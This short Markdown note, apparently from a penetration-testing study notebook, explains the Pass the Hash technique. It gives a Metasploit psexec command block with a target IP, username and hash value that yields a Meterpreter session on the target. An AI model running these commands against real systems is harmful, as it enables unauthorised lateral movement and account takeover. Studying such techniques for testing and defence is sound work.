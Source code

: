 # Pass the Hash 
- Pass the Hash is an exploitation technique that involves capturing the NTLM hashes of the users and utilizing them to authenticate the target.
- We can use tools like PSEXEC to pass the hash.

#### PASSING THE HASH

1. Suppose you got the password of another user while dumping hashes with mimikatz. We can use that hash to login legitimately as that user.
2. Load the PSEXEC module and set the Options.

```
use exploit/windows/smb/psexec
set RHOSTS 10.5.25.110
set SMBUSER sysadmin
set SMBPASS aad3b435b51404eeaad3b435b51404ee
exploit
```

3. This exploit will run and give a Meterpreter session of the specified user.